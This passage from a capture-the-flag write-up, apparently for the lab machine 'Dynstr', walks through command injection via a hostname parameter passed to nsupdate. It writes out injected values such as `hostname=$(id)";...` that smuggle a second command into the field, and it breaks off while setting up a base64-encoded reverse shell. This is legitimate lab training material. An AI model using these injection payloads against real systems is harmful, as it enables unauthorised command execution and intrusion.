 Since the application backend is executing a system command, we can use this to try and get command execution.

Let us add a double quote between our command and the semi-colon.

`hostname=id";ch3s.dnsalias.htb`

![/img/dynstr/delete-id.png](/img/dynstr/delete-id.png)

Now we can see that id is being injected into the command as a string. 

> At this point, I removed the `myip` parameter from my request as I started noticing that the behavior of the application was the same without it.

By this point, the assumption is that the command `id` is being used as the input for the `nsupdate` command. Let's see if we can execute it as a command using the following:

`hostname=$(id)";ch3s.dnsalias.htb`

![/img/dynstr/cmd-exec.png](/img/dynstr/cmd-exec.png)

We have now achieved command execution. 

#### Getting shell as www-data

Let us use this to get a reverse shell. We will take the following payload and base64 encode it.
